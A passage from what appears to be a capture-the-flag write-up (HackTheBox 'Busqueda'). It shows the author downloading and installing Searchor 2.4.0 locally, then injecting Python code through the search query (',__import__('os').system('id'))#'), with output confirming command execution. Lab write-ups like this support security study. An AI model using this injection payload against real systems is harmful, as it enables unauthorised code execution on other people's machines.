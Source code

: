 ![](/assets/obsidian/f1fb57aa241e014fb2bd9213ab5f1b19.png)

![](/assets/obsidian/7e4bd7875bbd81490c9e7800afa24b02.png)

Download the release then test it on local

```bash
┌──(root㉿kali)-[~/Busqueda]
└─# wget https://github.com/ArjunSharda/Searchor/archive/refs/tags/v2.4.0.zip

┌──(root㉿kali)-[~/Busqueda]
└─# unzip v2.4.0.zip

┌──(root㉿kali)-[~/Busqueda]
└─# cd Searchor-2.4.0

┌──(root㉿kali)-[~/Busqueda/Searchor-2.4.0]
└─# python3 setup.py install

┌──(root㉿kali)-[~/Busqueda/Searchor-2.4.0]
└─# searchor search Google "',__import__('os').system('id'))#"
uid=0(root) gid=0(root) groups=0(root)
https://www.google.com/search?q=
```
